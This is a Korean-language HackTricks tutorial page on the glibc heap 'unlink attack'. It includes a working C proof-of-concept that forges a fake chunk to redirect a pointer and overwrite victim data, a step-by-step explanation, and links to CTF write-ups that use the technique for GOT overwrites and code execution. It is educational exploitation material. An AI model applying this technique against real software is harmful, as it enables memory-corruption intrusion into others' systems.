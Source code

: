 # Unlink Attack

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 레포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## 기본 정보

이 공격이 발견되었을 때 대부분 WWW (Write What Where)를 허용했지만, 일부 **검사가 추가**되어 공격의 새 버전이 더 흥미롭고 더 복잡하며 **쓸모없는** 것으로 만들어졌습니다.

### 코드 예시:

<details>

<summary>코드</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* 공격은 tcaches가 사용될 경우 작동하지 않습니다 (2.26 이후)

### 목표

이 공격은 **덩어리를 가리키는 포인터를 자신의 3 주소 앞으로 변경**하는 것을 가능하게 합니다. 이 새로운 위치(포인터가 위치했던 주변)에 흥미로운 내용이 있으면, 다른 제어 가능한 할당/스택 등이 있을 수 있어 더 큰 피해를 일으킬 수 있습니다.

* 만약 이 포인터가 스택에 위치했다면, 이제 3 주소 앞을 가리키고 있기 때문에 사용자가 이를 읽고 수정할 수 있으므로, 스택에서 민감한 정보를 유출하거나 심지어 canary를 건드리지 않고 반환 주소를 수정할 수 있을 것입니다.
* CTF 예시에서, 이 포인터는 다른 할당에 대한 포인터 배열에 위치해 있으므로, 3 주소 앞을 가리키도록 만들어 다른 포인터들이 다른 주소를 가리키도록 할 수 있습니다.\
사용자가 다른 할당도 읽고 쓸 수 있기 때문에 정보를 유출하거나 임의의 위치(예: GOT)에 새 주소를 덮어쓸 수 있습니다.

### 요구 사항

* 메모리(예: 스택)에서 일부 제어를 얻어 일부 속성에 값을 제공하여 덩어리를 몇 개 만듭니다.
* 가짜 덩어리의 포인터를 설정하기 위해 스택 유출이 필요합니다.

### 공격

* 두 개의 덩어리가 있습니다 (chunk1 및 chunk2)
* 공격자는 chunk1의 내용과 chunk2의 헤더를 제어합니다.
* chunk1에서 공격자는 가짜 덩어리의 구조를 만듭니다:
* 보호 기능을 우회하기 위해 `size` 필드가 올바른지 확인하여 `corrupted size vs. prev_size while consolidating` 오류를 피합니다.
* 그리고 가짜 덩어리의 `fd` 및 `bk` 필드가 chunk1 포인터가 저장된 위치를 가리키도록 만들어줍니다. 각각 -3 및 -2의 오프셋을 사용하여 `fake_chunk->fd->bk` 및 `fake_chunk->bk->fd`가 실제 chunk1 주소가 있는 메모리(스택) 위치를 가리키도록 합니다:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* chunk2의 헤더는 이전 덩어리가 사용되지 않았음을 나타내고, 가짜 덩어리가 포함된 크기가 크기임을 나타내도록 수정됩니다.
* 두 번째 덩어리가 해제되면 이 가짜 덩어리가 연결 해제됩니다:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* 이전에 `fake_chunk->fd->bk` 및 `fake_chunk->bk->fd`가 동일한 위치(스택에 chunk1이 저장된 위치)를 가리키도록 만들어졌으므로 유효한 연결된 목록이었습니다. **두 위치가 동일한 위치를 가리키고 있기 때문에** 마지막 것만(`fake_chunk->bk->fd = fake_chunk->fd`) **적용**됩니다.
* 이로 인해 스택에 있는 chunk1의 포인터가 스택에서 3 주소 앞에 저장된 주소(또는 바이트)로 덮어씌워집니다.
* 따라서, 공격자가 다시 chunk1의 내용을 제어할 수 있다면, **스택 내부에 쓸 수 있게 되어 canary를 건드리지 않고 반환 주소를 덮어쓰고 로컬 변수의 값을 및 포인트를 수정할 수 있을 것**입니다. 또한 다시 chunk1이 스택에 저장된 주소를 다른 위치로 수정할 수 있게 되면, 공격자가 다시 chunk1의 내용을 제어할 수 있다면 어디든 쓸 수 있을 것입니다.
* 이것이 가능했던 이유는 **주소가 스택에 저장**되어 있었기 때문입니다. 위험 및 악용은 **가짜 덩어리의 주소가 어디에 저장되어 있는지**에 따라 달라질 수 있습니다.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## 참고 자료

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* CTF에서 심지어 unlink 공격을 찾는 것이 이상할 수 있지만, 이 공격이 사용된 writeup을 확인할 수 있는 몇 가지 예시가 있습니다:
* CTF 예시: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* 이 예시에서는 스택 대신 malloc된 주소의 배열이 있습니다. unlink 공격은 여기에 덩어리를 할당할 수 있도록 수행되어 malloc된 주소의 배열의 포인터를 제어할 수 있게 합니다. 그런 다음, 이러한 주소의 덩어리 내용을 수정할 수 있는 다른 기능이 있어 GOT를 가리키는 주소를 수정하여 leaks 및 RCE를 얻을 수 있습니다.
* 다른 CTF 예시: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* 이전 예시와 마찬가지로 할당 주소의 배열이 있습니다. unlink 공격을 수행하여 첫 번째 할당 주소가 배열 시작 부분보다 앞에 있는 몇 가지 위치를 가리키도록 만들고, 그런 다음 이 새 위치에 할당을 덮어씁니다. 따라서, 다른 할당의 포인터를 GOT의 atoi를 가리키도록 덮어쓸 수 있으며, libc leak을 얻기 위해 이를 출력하고, 그런 다음 atoi GOT를 one gadget 주소로 덮어쓸 수 있습니다.
* unlink 공격과 매우 유사한 취약점을 악용하는 사용자 정의 malloc 및 free 함수가 있는 CTF 예시: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* 사용자 정의 malloc의 FD 및 BK 포인터를 제어할 수 있는 오버플로우가 있습니다. 또한 힙에 exec 비트가 있어 힙 주소를 유출하고 GOT의 함수를 힙 덩어리에 쉘코드로 실행할 수 있습니다.
